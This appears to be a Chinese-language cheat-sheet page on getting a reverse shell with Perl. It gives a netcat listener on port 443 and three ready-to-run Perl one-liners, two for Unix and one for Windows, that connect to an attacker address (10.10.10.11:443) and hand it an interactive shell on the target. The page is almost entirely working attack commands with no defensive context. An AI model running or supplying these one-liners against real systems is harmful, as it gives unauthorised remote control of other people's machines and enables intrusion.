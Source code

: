 # Perl脚本反弹shell

首先在本地监听TCP协议443端口

```
nc -lvp 443

```

然后在靶机上执行如下命令：

```perl
perl -e 'use Socket;$i="10.10.10.11";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```

```perl
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.10.10.11:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

```

win平台下执行：

```perl
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.10.10.11:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

```

